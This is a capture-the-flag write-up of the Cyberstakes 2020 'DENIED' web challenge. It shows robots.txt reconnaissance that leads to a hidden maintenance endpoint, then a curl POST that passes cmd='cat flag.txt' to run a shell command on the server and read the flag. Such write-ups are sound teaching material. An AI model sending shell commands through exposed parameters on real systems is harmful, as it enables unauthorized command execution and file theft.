
# DENIED

* **Category**: Web Security
* **Points**: 75
* **Challenge**: Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:27856 The flag is in flag.txt.
* **Hint #1**: How can websites keep search engines from finding private information?
* **Hint #2**: Sometimes the developers leave some comments that give you a hint about what to do...
* **Hint #3**: You can use the cat command to read files

<br />

First, lets navigate to the site in a web browser:

<br />

![site](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/site.JPG)

<br />

Based on the hints and the image of a robot, lets look at the robots.txt file:

```
curl http://challenge.acictf.com:27856/robots.txt

User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

<br />

Lets look at the disallowed page, `/maintenance_foo_bar_deadbeef_12345.html`:

<br />

![maintenance](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/maintenance.JPG)

<br />

So the page tells us to *run a command*.  Lets looks at the source of the page to see if their are any hints on how to do this:
```
*...snip...*

        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->

*...snip...*
```

<br />

Lets use `curl` to send a POST request to this insecure page with the parameter *cmd* and the value of *cat flag.txt*:
```

curl http://challenge.acictf.com:27856/secret_maintenance_foo_543212345 -X POST --form cmd='cat flag.txt'

```
*...snip...*

<h1>Maintenance</h1>
        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->
        <p>Result: ACI{ccdcb229da85c8d0a6a239edb19} </p>

*...snip...*  
```

<br />

##Flag: ACI{ccdcb229da85c8d0a6a239edb19}

